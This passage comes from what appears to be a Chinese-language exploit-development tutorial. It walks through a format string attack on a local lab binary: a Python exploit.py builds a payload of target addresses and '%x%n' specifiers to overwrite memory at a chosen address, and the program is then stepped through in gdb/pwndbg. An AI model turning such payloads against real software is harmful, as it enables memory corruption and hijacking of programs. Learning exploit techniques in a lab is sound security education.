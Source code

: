 ![](img/00119.jpeg)

从中我们知道该值更改为`0x00000018`。当`printf`执行时，格式字符串值`%n`作为参数，它打印出一个等于到目前为止打印的字节数的 32 位长度值。在这里，程序到目前为止打印了 18 个字节。

1.  现在我们可以编写我们的利用代码来制作有效载荷。为此，请创建一个`exploit.py`文件并在编辑器中打开它。

1.  然后在其中添加以下代码：

```py
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK' 
form = '%x%x%x%n%x%n%x%n%x%n'  
print w1 + w2 + w3 + w4 + form  
```

在这里，我们为我们的应用程序创建一个有效载荷。这将作为输入提交以写入内存位置。因此，生成 32 位字的最佳方法是执行四次写入，每次针对一个字节，并将它们组合起来。

1.  确保利用代码具有执行权限：

```py
chmod +x exploit.py    
```

1.  现在我们可以使用此有效载荷在调试器中运行应用程序。这正是我们之前做的事情：

```py
gdb ./fmt    
pwndbg> break * main + 59    
pwndbg> break * main + 64    
pwndbg> run $(./exploit.py)  
```

1.  检查内存位置：

```py
pwndbg> x/4x 0x08049748
pwndbg> c
pwndbg> x/4x 0x08049748  
```

![](img/00120.jpeg)

然后该值更改为`0x4c443c34`

1.  现在让我们尝试改变有效载荷中的一个字节。为此，将第三个格式字符串参数`%x`更改为`%16x`。这将在前面添加 16 个零，并使其长度为 16 个字节：

```py
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK' 
form = '%x%x%16x%n%x%n%x%n%x%n'  
print w1 + w2 + w3 + w4 + form  
```
